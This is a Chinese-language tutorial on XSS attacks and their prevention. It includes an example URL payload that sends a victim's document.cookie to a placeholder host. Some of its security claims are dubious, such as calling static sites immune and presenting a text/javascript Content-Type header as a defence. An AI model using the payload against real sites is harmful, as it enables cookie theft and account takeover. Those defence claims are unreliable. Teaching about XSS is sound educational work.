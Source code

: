 # XSS攻击与防范

XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，
故将跨站脚本攻击缩写为XSS。XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。

这个是动态站点的威胁，静态站点完全不受其影响。

## XSS分类

***存储型XSS：***

    主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。
    应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。
    这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。

***反射型XSS：***

    将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。


XSS目前主要的手段和目的如下：

* 盗用cookie，获取敏感信息。
* 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
* 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，
或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
* 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
* 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

## XSS原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是">"、"<")，
并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

以反射性XSS举例说明XSS的过程，现在有一个网站，根据参数输出用户的名称，
例如访问url：`http://127.0.0.1/?name=foobar`，就会在浏览器输出如下信息：

```
hello foobar
```

如果我们传递这样的url：
```
http://127.0.0.1/?name=<script>alert('foobar')</script>
```

这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。

那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：
```
http://127.0.0.1/?name=<script>document.location.href='http://www.xxx.com/cookie?'+document.cookie</script>
```

这样就可以把当前的cookie发送到指定的站点：`www.xxx.com`

你也许会说，这样的URL一看就有问题，怎么会有人点击？是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短
，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，
相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，
然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

## 预防XSS

答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

* 过滤特殊字符

避免XSS的方法之一主要是将用户所提供的内容进行过滤。

* 使用HTTP头指定类型

```js
header.set("Content-Type","text/javascript")
```

这样就可以让浏览器解析javascript代码，而不会是html输出。

## 总结

XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。

